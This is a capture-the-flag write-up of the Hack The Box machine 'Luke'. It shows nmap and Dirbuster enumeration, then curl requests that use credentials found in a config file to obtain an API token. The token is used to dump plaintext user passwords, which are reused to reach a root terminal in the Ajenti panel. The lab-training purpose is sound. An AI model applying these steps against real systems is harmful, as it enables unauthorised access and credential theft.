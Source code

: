 +++
author = "Nick"
categories = ["ssh", "dirb", "enumeration", "curl", "JSON", "ajani", "terminal", "plugins"]
date = 2019-09-14T13:52:03Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/07/infocard-1.png"
slug = "hack-the-box-luke"
summary = "Back with a quick write-up on the box Luke from HtB"
tags = ["ssh", "dirb", "enumeration", "curl", "JSON", "ajani", "terminal", "plugins"]
title = "Hack The Box - Luke"

+++


Back with a quick write up on the box Luke from HtB. Let me preface this with, for whatever reason, I had a hard time with this, until I realized I forgot part of my enumeration steps. Derp, well, off we go!

As usual we start it off with a standard nmap scan.

```
nmap -sC -sV -oA ./scan 10.10.10.137
```

We get back a fairly small listing of results.

```
Nmap scan report for 10.10.10.137
Host is up (0.055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3+ (ext.1)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0             512 Apr 14 12:35 webapp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.15.29
|      Logged in as ftp
|      TYPE: ASCII
|      No session upload bandwidth limit
|      No session download bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3+ (ext.1) - secure, fast, stable
|_End of status
22/tcp open  ssh?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.86 seconds
```

Well, lets see what port 21 has in store for us. We log in and we get a directory, as show above, called webapp. We change to the dir and see that there's one file here. We download it and cat it:

{{< figure src="__GHOST_URL__/content/images/2019/07/image-26.png" >}}

Well, interesting, we pop over to port 80 on the box and we have content there. However, nmap didn't show the port available. Let's rerun our nmap with all ports.

```
nmap -p 1-65535 10.10.10.137
```

This time we see a bit of a different response. I've found that newer boxes on HTB tend to be very unstable, we'll chalk this one up to that.

{{< figure src="__GHOST_URL__/content/images/2019/07/image-28.png" >}}

So the first thing we're going to do is head over to port 8000 and see what we have. We're greeted with a Ajenti login page. Lets try the basics and see if it lets us pass, the default of root / admin for the Ajenti install. No dice. We also see port 3000 running when we browse to it we see a JSON returned with 'Auth token is not supplied'.

{{< figure src="__GHOST_URL__/content/images/2019/07/image-27.png" >}}

We see a few locations. It looks like the management is returning code 401, which means we need a password to get there. We'll also enumerate using Dirbuster, omitting directories, to see what files we come back with. Sure enough we find a config.php file. Inside we have some credentials!

{{< figure src="__GHOST_URL__/content/images/2019/07/image-31.png" >}}

So we try them against the port 8000 login, nothing. We try them against management, nothing. We try them against /login.php, nothing. Well maybe we can use them to authenticate against the API on port 3000. To do this we can use Curl.

```
curl --header "Content-Type: application/json" --request POST --data '{"password":"Zk6heYCyv6ZE9Xcg", "username":"root"}' http://10.10.10.137:3000/login
```
or
```
curl -H "Content-Type: application/json" -X POST -d'{"password":"Zk6heYCyv6ZE9Xcg", "username":"root"}' http://10.10.10.137:3000/login
```

Damn, that didn't work. However, our research on port 3000 shows that root isn't an acceptable (unless created otherwise) account. Admin is the account it normally uses. So in the above, we replace root with admin and we get a token back.

```
{"success":true,
"message":"Authentication successful!",
"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYzMzY3MjE5LCJleHAiOjE1NjM0NTM2MTl9.Jp9s0VKON-ZMEh_LLv8rOoV3ARET09MzMm1CLm0Lo4Q"}
```

Now we can use that token to authenticate and use other API endpoints. To test this we issue another curl to the root of the 3000 port and see what is returned, with some luck it will be an authentication acknowledgement.

```
curl -X GET 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYzMzY2Njk1LCJleHAiOjE1NjM0NTMwOTV9.zpdpGBmtcLxmP7tHjlrrTblztksZGQkuxV7wWlJgllw' http://10.10.10.137:3000
```
and we get back 
```
{"message":"Welcome admin ! "}
```

Awesome, now lets use this to enumerate! We our dirb shows that we have a /users enpoint, lets pull that data. We get an output of 4 users.

```
[{"ID":"1","name":"Admin","Role":"Superuser"},
{"ID":"2","name":"Derry","Role":"Web Admin"},
{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```

In this case we will pull each user name to see what data is held.

```
curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYzMzY2Njk1LCJleHAiOjE1NjM0NTMwOTV9.zpdpGBmtcLxmP7tHjlrrTblztksZGQkuxV7wWlJgllw' http://10.10.10.137:3000/users/USERNAMEHERE

```

Sure enough data is held inside, as we expected.

```
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```

Now that we have some passwords and usernames, we should try them against the many login pages we had before. None work on port 8000, lets head back to the /login.php on port 80. None of those worked there, lets try the /management. Looks like the credentials for Derry worked.

{{< figure src="__GHOST_URL__/content/images/2019/07/image-33.png" >}}

We already know that what the login.php and config.php. Lets take a look at the config.json. When we load it we seem to have the Ajani config file which contains some goodies. The first thing we see is that Terminal plug is running a shell root. So we can probably use that to gain our flags. We also have the root username and password. This should be smooth sailing from here!

We load up port 8000 and log in with the credentials we've found. Once logged in we scope out the install and see what this is all about. At the bottom of the navigation pane we have the option for Terminal.

{{< figure src="__GHOST_URL__/content/images/2019/07/image-34.png" >}}

Looks like we should take it for a spin. Once it's loaded head over to root and snag the flag.

{{< figure src="__GHOST_URL__/content/images/2019/07/image-35.png" >}}

After that we head to /root/usr/home/derry to snag his user.txt.

{{< figure src="__GHOST_URL__/content/images/2019/07/image-36.png" >}}

We are done! A quick and easy box. The hardest part for some might be learning how to use curl against the API. See you next time!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

